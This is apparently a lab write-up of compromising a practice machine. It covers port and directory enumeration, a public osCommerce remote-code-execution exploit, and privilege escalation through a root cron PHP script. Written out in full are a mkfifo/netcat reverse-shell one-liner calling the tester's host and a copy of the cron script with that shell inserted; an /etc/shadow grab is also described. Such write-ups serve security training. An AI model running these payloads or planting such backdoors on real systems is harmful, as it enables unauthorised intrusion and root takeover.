# MILAN04

## Enumeration

Host at `192.168.xxx.223`. Output from `nmap` scan report generated [here](./#network-enumeration):

```
Nmap scan report for 192.168.249.223
Host is up (0.053s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE  SERVICE VERSION
80/tcp    closed http
443/tcp   closed https
60001/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.41 (Ubuntu)
Device type: general purpose|storage-misc|firewall|WAP|webcam
Running (JUST GUESSING): Linux 2.6.X|3.X|4.X|2.4.X (86%), Synology DiskStation Manager 5.X (86%), WatchGuard Fireware 11.X (86%), Tandberg embedded (85%)
OS CPE: cpe:/o:linux:linux_kernel:2.6.32 cpe:/o:linux:linux_kernel:3.10 cpe:/o:linux:linux_kernel:4.2 cpe:/o:linux:linux_kernel cpe:/a:synology:diskstation_manager:5.1 cpe:/o:watchguard:fireware:11.8 cpe:/o:linux:linux_kernel:2.4 cpe:/h:tandberg:vcs
Aggressive OS guesses: Linux 2.6.32 (86%), Linux 2.6.32 or 3.10 (86%), Linux 3.5 (86%), Linux 4.2 (86%), Linux 4.4 (86%), Synology DiskStation Manager 5.1 (86%), WatchGuard Fireware 11.8 (86%), Linux 2.6.35 (85%), Linux 2.6.39 (85%), Linux 3.10 - 3.12 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
```

### Port 60001

The landing page makes it seem like a charity site or something that was taken down:

<figure><figcaption><p>Landing page on port</p></figcaption></figure>

It was just plain HTML and did not give me much. I start looking around the server with a `feroxbuster` command:


```bash
feroxbuster -L 20 -k -C 404 -C 400 -r --thorough -w dir_enum.txt -u http://vm14.skylark:60001 -o p60001_directory.feroxbuster
```


* `dir_enum.txt` is a CeWL-generated wordlist with Seclists's `directory-2.3-medium.txt` appended

It turns up a log of things but the interesting one is a site at `/catalog`.

#### Catalog

I head to `/catalog` and it is a broken-looking webpage. Hovering over links I notice that they are all for a hostname `milan`:

<figure><figcaption><p>Links are hard-coded for hostname milan</p></figcaption></figure>

I add an extra entry to my `/etc/hosts` file and then the site loads properly:

<figure><figcaption><p>Updated hosts file</p></figcaption></figure>

<figure><figcaption><p>Correctly loaded page</p></figcaption></figure>

I start looking around the site. One thing I note right away is that it seems to be powered by [osCommerce](https://www.oscommerce.com/) which appears to be an e-commerce platform.

I eventually find an RCE for this platform, [EDB 44374](https://www.exploit-db.com/exploits/44374). This seems like a good place to start.

## Foothold

### EDB 44374

The code is quite easy to configure. All I need to do is replace the URL for my target and then give it a run:

<figure><figcaption><p>Exploit configuration</p></figcaption></figure>

From here I just run it with `python3`. According to its output it ran successfully:

<figure><figcaption><p>Command line output of exploit</p></figcaption></figure>

I navigate to the page and find the command output:

<figure><figcaption><p>Command output</p></figcaption></figure>

#### Reverse Shell

Perfect, now I need to turn this into a shell. I mess around with the payload a bit but through testing it seems the machine has Netcat installed. Further testing reveals the `mkfifo ... nc` shell technique will work (using the exploit to create a PHP file with that as the payload would cause the page to load really slowly - indicating that nc was attempting to reach out but was being prevented by a firewall or something)

Now it is just a matter of finding a port the victim can reach. I try 8000, 60001, and finally 80 works. The final payload I put in the PHP `system()` call was:


```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.157 80 >/tmp/f
```


When run I catch a shell on my listener:

<figure><figcaption><p>Reverse shell caught</p></figcaption></figure>

User access achieved as `www-data`.

## Privilege Escalation

I start enumeration with linPEAS and `pspy`. linPEAS does not have anything that jumps out at me but after a bit I see something in the `pspy` output:

<figure><figcaption><p>Interesting item in pspy output</p></figcaption></figure>

This job seems to execute in 5 minute intervals. In examining the command it seems root is using `/usr/bin/php` to run a script called `froxlor_master_cronjob.php`. The script is under the `/var/www/html` directory so I assume I will have write access. I use a variation on [this command](../../../linux/privilege-escalation/enumeration/manual-enumeration.md#insecure-folder-permissions) to check writable directories and find I can write there:


```bash
find /var/www/html/ -writable -type d 2>/dev/null | grep -i scripts
```


<figure><figcaption><p>Writable directory</p></figcaption></figure>

I grab a copy of the `froxlor_master_cronjob.php` file and take it to my machine for editing. I know the machine has Netcat so all I really need to do is find another port the victim can reach and add a `system()` call with a `mkfifo ... nc` reverse shell. The final script looks like this:


```php
<?php

/**
 * This file is part of the Froxlor project.
 * Copyright (c) 2010 the Froxlor Team (see authors).
 *
 * For the full copyright and license information, please view the COPYING
 * file that was distributed with this source code. You can also view the
 * COPYING file online at http://files.froxlor.org/misc/COPYING.txt
 *
 * @copyright  (c) the authors
 * @author     Froxlor team <team@froxlor.org> (2010-)
 * @license    GPLv2 http://files.froxlor.org/misc/COPYING.txt
 * @package    Cron
 *
 */

system("rm -f /tmp/g;mkfifo /tmp/g;cat /tmp/g|sh -i 2>&1|nc 192.168.45.157 22 >/tmp/g");

// validate correct php version
if (version_compare("7.0.0", PHP_VERSION, ">=")) {
	die('Froxlor requires at least php-7.0. Please validate that your php-cli version and the cron execution command are correct.');
}

require dirname(__DIR__) . '/vendor/autoload.php';

\Froxlor\Cron\MasterCron::setArguments($argv);
\Froxlor\Cron\MasterCron::run();

```


* Line 18 is my only addition

I copy the original script to a backup `.orig` file and then download my updated version of the script, overwriting the original:

<figure><figcaption><p>Overwritten PHP script</p></figcaption></figure>

Then I just wait for the next 5 minute increment and catch a reverse shell:

<figure><figcaption><p>Elevated shell</p></figcaption></figure>

I can use this elevated shell to read the `proof.txt` and `local.txt` files:

<figure><figcaption><p>Flag files</p></figcaption></figure>

`root` access achieved

## Post Exploit

Initial post-exploit enumeration did not reveal anything useful.

I grab a copy of the `/etc/shadow` file but none of the hashes were readily crackable. The only users who I find hashes for are:

* `root`
* `milan`
* `sarah`

There is a MySQL server running on the internal interface of this machine at 127.0.0.1:3306 but I am not sure that is worth pursuing right now. I did try accessing it via the command line from my `root` shell and it wanted a password which I do not have.
